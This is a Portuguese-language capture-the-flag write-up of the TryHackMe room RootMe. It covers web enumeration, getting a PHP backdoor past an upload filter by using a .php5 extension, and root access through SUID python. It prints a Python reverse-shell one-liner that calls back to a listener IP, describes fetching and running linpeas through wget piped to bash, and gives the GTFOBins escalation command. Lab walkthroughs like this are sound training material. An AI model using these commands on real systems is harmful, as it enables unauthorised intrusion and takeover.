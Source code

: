 # RootMe

# Dificuldade : Fácil

<h1>Dessa vez um CTF de dificuldade fácil, porém, diria que é essencial pra entender o processo de bypass file upload.</h1>

A maquina [RootMe](https://tryhackme.com/room/rrootme) tem foco em web-security, Linux exploration, and Privilege Escalation

## Enumeração

![Nmap Resultado](https://user-images.githubusercontent.com/32500664/142517453-fc77cdbb-275c-48a1-925c-5efbcad1c6ed.png)


# Porta 80

![1-home](https://user-images.githubusercontent.com/32500664/142556909-46286b74-c023-4a2d-9b61-90d5ca297867.png)

# Directory fuzzing

![fuufResult](https://user-images.githubusercontent.com/32500664/142517501-c73e2c23-bfdb-4b62-ba1f-21582173fb23.png)

# 80/panel
Então... pra quem pratica ctf uma pagina de upload é convite VIP pra scripts maliciosos, sendo assim, vamos tentar upar um script em php.

![SitePanel2](https://user-images.githubusercontent.com/32500664/142556961-4172f3b0-df03-439e-8363-494911090bba.png)

![TentativaUpload](https://user-images.githubusercontent.com/32500664/142556989-5513a51e-f5f6-41d8-ad61-9f4a229ba7d6.png)

# Upload Reverse shell Script

<h4>Quem para quando vê vermelho é carro!!</h4>

**Pesquisando formas de "Bypassar" esse arquivo no [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload) encontro a possibilidade de passar pela restrição de extensão usando a lista a seguir.**

![ListaBypass](https://user-images.githubusercontent.com/32500664/142534496-e4b45797-bd9b-47bb-a59a-17c1cf4ef28f.png)

<h4>Mudando extensão e upando script</h4>

![shellzinha](https://user-images.githubusercontent.com/32500664/142519820-82eaf5c6-38ab-409f-b3d5-212fe2745198.png)

![5-php5](https://user-images.githubusercontent.com/32500664/142520719-46b85125-d397-4d1c-96ac-96c95983c029.png)

<h4>Sinal verde acelera familia</h4>

> Decidi upar um backdoor em PHP que me permite executar comandos dentro do servidor.

![foi](https://user-images.githubusercontent.com/32500664/142519919-15e4bd42-fa8e-49f3-93dc-098d6b4f9425.png)

![FUNCIONA](https://user-images.githubusercontent.com/32500664/142519962-2134cae5-690a-4680-bbd6-437e4292a628.png)

<h2> Com o script funcionando vamos verificar se a maquina roda python e se sim finalmente rodar o script de reverse shell </h2>

![Python3Veri](https://user-images.githubusercontent.com/32500664/142526677-9f7dedeb-4934-495a-b11a-eb99b8c786d5.png)

Python presente!!

![CriandoShell](https://user-images.githubusercontent.com/32500664/142527323-dcee4a7f-660e-4a55-a919-a99d3874ab57.png)

Se conectando á `http://IP-da-maquina/uploads/simple-backdoor.php5?cmd={REVERSE-SHELL-SCRIPT}`

> O script que eu usei foi ->

``` python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.82.32",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' ```

![Oia a shell ai](https://user-images.githubusercontent.com/32500664/142528324-a329bbd8-29d5-453b-8185-58e7bf28ed0a.png)

Normalmente a user flag fica na home de um usuário comum da maquina, mas... cade ?

# Encontrando e capturando a user flag
Utilizando o comando [find / -type f -name user.txt] para encontrar e capturar a flag.

![Inkedfind_LI](https://user-images.githubusercontent.com/32500664/142541783-61212da6-7692-4b8d-a264-69d69bfe49aa.jpg)

# Escalando privilégios

> Executando o [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) na maquina da vitima abrindo um servidor http na nossa maquina usando o python e utilizando dentro da maquina da vitima o comando wget junto com o bash (conectando a saida de um comando com a entrada de outro utilizando o pipe "|"

![ComandoLinpeas](https://user-images.githubusercontent.com/32500664/142542775-5c6cb03f-c98d-44ae-99d5-5e1e83f0fafc.png)

O no inicio do linpeas diz que se a cor da sinalização for [VERMELHA/AMARELA] é pra ficar de olho...

![InkedSetáDestacadoÉporqÉimportante_LI](https://user-images.githubusercontent.com/32500664/142543063-eb46b6e3-9204-452b-b8cb-50a1be8c67fc.jpg)

> Basicamente SUID é um tipo de permissão especial na qual o arquivo pode executar outros comandos como o usuário dono do arquivo.

[ O linpeas tá alertando que root é dono do python que executa o comando passado por argumento, este arquivo tem o bit SUID e todos os usuários tem permissão de executa-lo. Se um usuário comum usar esse script para executar um comando, este comando será executado como root por causa do bit SUID.]

Sabendo disso vamos utilizar o site [GTFOBins](https://gtfobins.github.io) para procurar formas de abusar dessa falha de configuração.

> GTFOBins é uma lista com curadoria de binários Unix que podem ser usados para contornar as restrições de segurança locais em sistemas configurados incorretamente.

## BINGO!!

![InkedGtfoPyt_LI](https://user-images.githubusercontent.com/32500664/142561087-89cd492c-67e5-49f5-bab6-475d5a816270.jpg)

> o "./" é uma forma de dizer basicamente em shellscript "diretório atual". Nesse caso o "./python" é de forma nem um pouco tecnica, talvez até errônea, significa diretório que o python se encontra. o Linpeas mesmo quando alerta entra o local que o arquivo se encontra, na hora de executar o script root troca o ./ pelo diretório do arquivo 

Com o comando ```usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

<h4>Lendo Root flag</h4>

![0_bYLorplRkDHoTjoa](https://user-images.githubusercontent.com/32500664/142551835-a07f5505-c8c4-4ba6-8b2c-2272f9ce872e.png)

